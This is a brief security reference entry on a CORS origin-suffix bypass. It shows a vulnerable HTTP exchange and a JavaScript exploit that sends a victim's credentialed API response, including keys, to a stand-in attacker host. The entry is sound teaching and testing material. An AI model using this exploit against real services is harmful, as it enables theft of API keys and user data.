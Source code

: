 # Post Domain Bypass

## Description 
Host allows requests from hostnames that has the host as a suffix.  

**Severity**: High

## Exploit
`example.com` trusts `example.com.evil.com`, which is an attacker's domain.

### Example
In this scenario any suffix inserted after `example.com` will be accepted by the server.  

**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://example.com.evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com.evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `example.com.evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-1)
